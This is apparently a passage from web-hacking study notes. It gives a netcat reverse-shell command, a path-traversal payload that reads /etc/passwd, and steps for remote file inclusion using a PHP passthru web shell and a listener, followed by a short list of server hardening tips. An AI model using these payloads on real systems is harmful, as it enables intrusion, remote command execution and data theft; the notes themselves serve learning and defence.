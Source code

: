 #### Netcat

``` bash
nc -e /bin/sh [HOST_IP] 8080
```

### Local File Inclusion

Allows an attacker to read ANY file on the same server. Allows access of outside www folder. /etc/passwd contains all the users for the current os. Go back into the directories to find the above file. So if the url contains something like `page=include.php`, do something like `page=/../../../../../etc/passwd`. What this does is by instead of loading the specific file that was originally targeted, we can load something that it wasn't intending to load from the same server.

### Remote File Inclusion

If doing this on an actual server the file you want to access has to have a real IP or domain name.

1. create a php file with the following:

``` php
<?php

passthru("[command]");

?>
```

passthru executes system commands. For example use the netcat command as above.

Ensure this file is stored on a webserver that the target can access. Make sure the file extension is `.txt` not `.php` or it runs on your webserver.

1. Listen for connections. `nc -vv -l -p [port]`
2. Under the `page=` part paste the location of your php file. and add a ? to the end to exe as php eg. `page=[ip]/[file]?`

## Prevention of Web Server Exploits

The above only happens because the server allows it and is misconfigured.

1. File upload vulnerabilities 
    - Do not allow unsafe files to be uploaded.
    - If you are asking for an image ensure it is an image, never allow exe uploads.
    - Check the file type, not the extension.
2. Code exec vulnerabilities
    - Do'nt use dangerous functions,
    - Filter the input before execution
    - If you have to use function make sure you analyse the input before exec.
    - Use regular expressions (regex).
3. File inclusion vulnerabilties
    - Disable the allow_url_fopen and allow_url_include settings in php (in the /etc/php5/cgi/php.ini)
    - Use static file inclusion (hard code the files)

## SQL Injection and Attacks

